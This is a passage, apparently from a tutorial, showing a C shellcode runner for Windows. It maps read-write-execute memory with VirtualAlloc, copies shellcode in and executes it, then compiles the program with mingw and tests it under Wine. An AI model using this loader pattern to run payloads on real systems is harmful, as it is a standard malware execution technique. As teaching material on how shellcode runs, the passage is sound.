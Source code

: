 ```

	printf("payload size: %i", sizeof shellcode - 1);

	LPVOID lpAlloc = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	if (lpAlloc == NULL)
	{
		puts("VirtualAlloc failed!");
		return 1;
	}

	memcpy(lpAlloc, shellcode, sizeof shellcode);

	((void(*)())lpAlloc)();

	return 0;
}
```

Key notes:
- `VirtualAlloc()` allows us to allocate memory with code execution enabled (`PAGE_EXECUTE_READWRITE`)
- `memcpy()` copies our shellcode into the memory allocated by `VirtualAlloc()`
- `((void(*)())lpAlloc)();` executes the code pointed to by `lpAlloc` (which is our shellcode)
- we use `sizeof shellcode - 1` instead of `strlen(shellcode)` because the generated shellcode contains a `\x00` character (even though we specified `-b \x00`)

Now compile the code (I am using Fedora so I have to cross-compile for Windows):

```
$ sudo dnf install mingw64-gcc mingw64-gcc-c++
...
$ x86_64-w64-mingw32-gcc sh.c -o msg.exe
```

### Testing our shellcode

Since I am using Linux I need either a Windows VM or [Wine](https://www.winehq.org/) to run `msg.exe`:

```
$ wine msg.exe
002c:fixme:winediag:loader_init wine-staging 8.19 is a testing version containing experimental patches.
002c:fixme:winediag:loader_init Please mention your exact version when filing bug reports on winehq.org.
0088:fixme:wineusb:query_id Unhandled ID query type 0x5.
0088:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0088:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0088:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
0088:fixme:hid:handle_IRP_MN_QUERY_ID Unhandled type 00000005
payload size: 367
```

